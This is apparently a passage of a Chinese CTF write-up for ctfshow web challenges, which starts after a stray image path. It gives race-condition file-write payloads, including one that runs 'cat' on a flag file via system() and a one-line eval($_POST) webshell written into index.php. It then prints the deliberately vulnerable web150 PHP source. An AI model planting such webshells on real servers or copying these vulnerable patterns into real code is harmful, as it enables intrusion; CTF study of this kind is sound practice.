 遍历当前目录下所以文件，只保留`index.php`，其他文件都删除

可以利用条件竞争

```
ctf=1.php
show=<?php system('cat /ctfshow_fl0g_here.txt');?>
```

使用bp不断访问并传参，然后开一个去不断访问 1.php

非预期，直接往index.php里面写一句话
payload

```
ctf=index.php
show=<?php eval($_POST[1]);?>
```

## web150

```php
<?php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```